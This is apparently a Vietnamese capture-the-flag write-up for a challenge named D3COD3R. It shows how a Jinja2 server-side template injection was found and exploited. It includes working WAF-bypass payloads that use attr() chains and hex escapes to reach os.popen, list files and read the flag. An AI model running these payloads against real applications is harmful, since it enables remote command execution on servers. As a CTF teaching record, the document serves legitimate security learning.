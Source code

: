 # D3COD3R

## Background

---

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python/

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

## SSTI discovery

---

- Chúng ta phát hiện được rằng chương trình có lỗ hỏng SSTI khi truyền chuỗi Base64 `e3snYScudXBwZXJ9fQ==` ( {{'a'.upper}} ) vào Decoder field của chương trình.

![img](images/test_upper.png)

## SSTI exploit and bypass WAF

---

- Đầu tiên, Chúng ta sử dụng lệnh sau để hiển thị tất cả các class.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()}}
```

![img](images/list_class.png)

- Đến đây, chúng ta có thể tìm được ví trí của class mà chúng ta đang cần. Class đó là `os._wrap_close` nằm ở vị trí 132.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)}}
```

![img](images/os_wrap_close.png)

- Tiếp theo, ta sử dụng lệnh dưới đây để liệt kê tất cả các file có trong đường dẫn hiện tại.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('ls${IFS}\x2dla')|attr('read')()}}
```

![img](images/list_file.png)

- Ta phát hiện có file flag. Cuối cùng, ta sử dụng lệnh sau để đọc được file flag trên.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('cat${IFS}fla\x67')|attr('read')()}}
```

![img](images/flag.png)

---

> flag : `Wanna.One{we_wish_u_a_merry_ch1rsmas:3}`

---
